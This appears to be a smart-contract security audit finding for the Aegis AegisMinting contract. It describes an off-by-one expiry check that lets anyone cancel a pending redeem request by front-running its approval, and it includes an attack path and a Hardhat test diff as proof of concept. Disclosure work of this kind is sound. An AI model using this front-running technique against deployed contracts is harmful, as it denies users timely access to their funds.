Wonderful Midnight Python

Medium

# Anyone could withdraw the `redeemRequest` before expiry

### Summary

The `requestRedeem` is intended to be withdrawable only after expiry if not approved by `FUNDS_MANAGER_ROLE`. However, due to an incorrect check, An Griefer call `withdrawRedeemRequest` even before expiry and cancel the redeem request.


### Root Cause

wrong check condition here [AegisMinting.sol#L379](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L379)
```solidity

  /**
   * @dev Withdraws expired RedeemRequest locked YUSD funds to user
   * @param requestId Id of RedeemRequest to withdraw
   */
  function withdrawRedeemRequest(string calldata requestId) public nonReentrant whenRedeemUnpaused {
    RedeemRequest storage request = _redeemRequests[keccak256(abi.encode(requestId))];
    if (request.timestamp == 0 || request.status != RedeemRequestStatus.PENDING || request.order.expiry > block.timestamp) { //<----@
      revert InvalidRedeemRequest();
    }
```

### Internal Pre-conditions
The redeem request remains in a pending state, and `FUNDS_MANAGER_ROLE` attempts to call `approveRedeemRequest` exactly at the expiry time.

### External Pre-conditions

_No response_

### Attack Path
1. User submits `requestRedeem` for 100 USDT to repay a loan.
2. Aegis creates a redeem order with a 1-week expiry.
3. Due to high load, `FUNDS_MANAGER_ROLE` calls `approveRedeemRequest` in the final block before expiry.
4. An attacker front-runs this with `withdrawRedeemRequest`, canceling the request.
5. The approval transaction reverts as the request is no longer pending.

### Impact

A redeemer can face a DoS for up to **1 week**, the duration of the redeem request's expiry window. If a malicious actor withdraws the request just before it gets approved by the `FUNDS_MANAGER_ROLE`, the user is forced to **resubmit the request and wait again**. 

Although this is caused by a simple off-by-one-block edge case, it can lead to significant user frustration especially for users expecting timely redemption of their funds.

### PoC

apply the following git diff and run with command `npx hardhat test`

```diff
diff --git a/aegis-contracts/test/6_aegis_minting_redeem.spec.ts b/aegis-contracts/test/6_aegis_minting_redeem.spec.ts
index 43f9e72..e46a524 100644
--- a/aegis-contracts/test/6_aegis_minting_redeem.spec.ts
+++ b/aegis-contracts/test/6_aegis_minting_redeem.spec.ts
@@ -1,5 +1,5 @@
 import { ethers } from 'hardhat'
-import { loadFixture, time } from '@nomicfoundation/hardhat-network-helpers'
+import { type SnapshotRestorer,  loadFixture, time ,takeSnapshot} from '@nomicfoundation/hardhat-network-helpers'
 import { expect } from 'chai'

@@ -1525,7 +1551,9 @@ describe('AegisMinting', () => {
 
   describe('#withdrawRedeemRequest', () => {
     describe('success', () => {
-      it('should withdraw expired deposit redeem', async () => {
+      it.only('should withdraw before expiry ', async () => {
+        let snapshot: SnapshotRestorer;
+
         const [owner, sender] = await ethers.getSigners()
 
         const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, yusdContract, aegisConfig } = await loadFixture(deployFixture)
@@ -1540,7 +1568,7 @@ describe('AegisMinting', () => {
 
         const requestId = 'test'
         const yusdAmount = ethers.parseEther('9.99')
-        const orderExpiry = (await time.latest()) + 10000
+        const orderExpiry = (await time.latest())+ 1000;
         const redeemOrder = {
           orderType: OrderType.REDEEM,
           userWallet: sender.address,
@@ -1553,19 +1581,20 @@ describe('AegisMinting', () => {
           additionalData: encodeString(requestId),
         }
         const signature = await signOrder(redeemOrder, aegisMintingAddress)
+        await assetContract.mint(aegisMintingContract, ethers.parseEther('10'))
 
         await expect(aegisMintingContract.connect(sender).requestRedeem(redeemOrder, signature)).to.be.not.reverted
-
-        await time.increase(orderExpiry)
-
-        const benefactorYUSDBalanceBefore = await yusdContract.balanceOf(sender)
-
+        console.log("orderExpiry" , orderExpiry);
+        await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner)
+        await time.increase(1000-4) // @audit : move the time to exactly expiry timestamp
+        snapshot = await takeSnapshot(); // take the snapshot so that we can test both withdraw and approve request 
+        await expect(aegisMintingContract.approveRedeemRequest(requestId, ethers.parseEther('10'))).to.
+        emit(aegisMintingContract, 'ApproveRedeemRequest')
+        
+        await snapshot.restore(); // restore the snapshot 
         await expect(aegisMintingContract.withdrawRedeemRequest(requestId)).to.
           emit(aegisMintingContract, 'WithdrawRedeemRequest').
           withArgs(requestId, sender.address, yusdAmount)
-
-        await expect(assetContract.balanceOf(aegisMintingAddress)).to.be.eventually.equal(0)
-        await expect(yusdContract.balanceOf(sender)).to.be.eventually.equal(benefactorYUSDBalanceBefore + yusdAmount)
       })
     })
```

### Mitigation
In case of `withdrawRedeemRequest` check that `expiry>= block.timestamp`. 

